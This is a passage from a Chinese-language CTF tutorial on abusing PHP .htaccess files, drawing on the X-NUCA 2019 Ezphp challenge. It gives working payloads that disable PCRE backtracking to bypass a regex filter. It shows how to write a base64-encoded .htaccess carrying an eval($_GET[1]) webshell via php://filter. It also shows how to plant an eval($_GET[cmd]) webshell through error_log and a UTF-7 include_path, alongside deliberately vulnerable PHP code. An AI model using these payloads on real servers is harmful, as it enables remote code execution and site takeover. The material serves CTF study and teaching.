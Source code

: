 ![](https://mmbiz.qpic.cn/mmbiz_png/Go7NSXrKWd6Jd36S86K7pfK7YG3YwoibbdxKdPWZYcIzWrMlDHhej5817u17c4CM99kGbxzWYibE7AbMUIFDjpcQ/640?wx_fmt=png)

**.htaccess 其他利用点**

**prce 回溯绕过正则匹配**

我们先看如下一段代码：

```
<?php$filename = 'php://filter';if(preg\_match("/\[^a-z\\.\]/", $filename) == 1) {    echo "Hacker";    var\_dump(preg\_match("/\[^a-z\\.\]/", $filename));}else{    echo "hello";    var\_dump(preg\_match("/\[^a-z\\.\]/", $filename));}//Hackerint(1)
```

这里的正则只匹配 a-z 以及. 组成的的变量，而我给变量赋值了 php://filter，很明显输出了 Hacker。但是当我们写入. htaccess 就会发生一些有趣的事情了。

.htaccess 文件内容如下：

```
php\_value pcre.backtrack\_limit 0php\_value pcre.jit 0
```

这里是通过 php\_value 设置正则回朔次数，然后再看返回的结果：

![](https://mmbiz.qpic.cn/mmbiz_png/Go7NSXrKWd6Jd36S86K7pfK7YG3Ywoibbm6eibfezNK3W7JAZibAicAaDCMOicdzgILias9Dl6sVmOsOYNibO4ibx0rWwA/640?wx_fmt=png)

发现 preg\_match 返回了布尔值 False，这样就可以达到绕过这个正则。

在前面说的 X-NUCA'2019—Ezphp 这个题目中，就是因为正则的限制导致我们不能够写 php://filter 伪协议，然后我们通过这种回溯绕过的方法，就可以用这种绕过这个正则，利用伪协议去写一个 shell 了。

用伪协议写 shell 的 payload 如下：

```
?filename=php://filter/write=convert.base64decode/resource=.htaccess&content=cGhwX3ZhbHVlIHBjcmUuYmFja3RyYWNrX2xpbWl0IDAKcG hwX3ZhbHVlIHBjcmUuaml0IDAKcGhwX3ZhbHVlIGF1dG9fYXBwZW5kX2ZpbGUgLmh0YWNjZXNzCiM8P3 BocCBldmFsKCRfR0VUWzFdKTs/Plw&1=phpinfo();
```

**error\_log 生成 shell**

个人感觉这种思路有点像 mysql 日志写 shell，首先是通过 php 的配置选项中的 error\_log 可以将 php 运行报错的记录写到指定文件中，然后如果有 include\_once 这种包含的函数去包含一个不存在的文件，就会导致报错导致在你指定的目录下生成文件。然后在 include\_path 中写入恶意的代码，这个代码就会出现在刚刚生成的文件当中。

但是千万要注意的一点是：写进 error\_log 的内容会被 html 编码。

我们可以采用上面刚刚讲过的 utf7 编码即可绕过。

比如在 index.php 写入如下代码：

```
<?phpinclude\_once("fl3g.php");$content = $\_GET\['content'\];$filename = $\_GET\['filename'\];file\_put\_contents($filename, $content . "\\nJust one chance");?>
```

然后写入. htaccess 文件，内容如下：

```
php\_value error\_log D:\\phpStudy\\PHPTutorial\\WWW\\tmp\\fl3g.phpphp\_value error\_reporting 32767php\_value include\_path "+ADw?php eval($\_GET\[cmd\])+ADs +AF8AXw-halt+AF8-compiler()+ADs"# \\
```
